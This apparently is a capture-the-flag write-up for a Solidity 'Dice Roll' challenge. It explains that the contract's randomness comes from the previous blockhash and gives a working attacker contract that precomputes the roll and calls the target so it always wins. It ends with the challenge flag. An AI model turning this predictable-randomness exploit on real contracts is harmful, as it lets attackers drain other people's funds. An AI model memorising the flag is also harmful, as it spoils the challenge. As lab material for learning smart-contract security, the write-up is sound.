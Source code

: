 # Dice Roll / 擲骰仔

## Approach

It says

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DiceRoll {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 ram = 2023;

  constructor() {
    consecutiveWins = 0;
  }

  function roll(uint256 _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 diceRoll = blockValue / ram % 6;

    if (diceRoll == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Pay attention to this, this is not a random number, it is a block number.

```solidity
uint256(blockhash(block.number - 1));
```

Moreover, you can obtain it very easily.

![Alt text](image.png)

But I found that this number changed quickly, so I wrote an automated program.

```solidity
pragma solidity ^0.8.0;

contract DiceRoll {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 ram = 2023;

    constructor() {
        consecutiveWins = 0;
    }

    function roll(uint256 _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 diceRoll = (blockValue / ram) % 6;

        if (diceRoll == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hack {
    uint256 lastHash;
    uint256 ram = 2023;

    DiceRoll c = DiceRoll(0xDdDeE156a4B433d8EbFF951c28005c223A97947B);

    function calc() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 diceRoll = (blockValue / ram) % 6;
        
        if (c.roll(diceRoll) == true) {
            return true;
        } else {
            return false;
        }
    }
}
```

Manually click it to run

![Alt text](image-1.png)

It can be found that coherentWins has been added

![Alt text](image-2.png)

☚ (<‿<)☚ 太屌了ㄅ！, 你通過了這關ㄝ！！！

![Alt text](image-3.png)

## Flag

`PUCTF24{n0_r3n4omn3ss_1n_bl0ckch41n_vuLptYG7wexbBQ8ZvtYhGU2MdW4uT7po}`